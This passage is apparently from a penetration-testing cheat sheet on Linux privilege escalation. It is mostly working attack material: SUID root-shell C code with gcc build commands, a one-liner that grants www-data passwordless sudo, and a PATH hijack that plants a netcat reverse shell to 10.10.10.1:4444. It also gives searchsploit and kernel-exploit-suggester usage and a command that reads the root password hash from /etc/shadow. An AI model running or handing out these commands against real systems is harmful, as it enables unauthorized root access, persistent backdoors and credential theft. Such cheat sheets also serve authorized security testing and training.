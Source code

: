               SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  

              Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file transfer)  
        
              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`
    
-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on 
    port 4444.
    
         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit  

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
 
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password

    `cat /etc/shadow |grep root`
    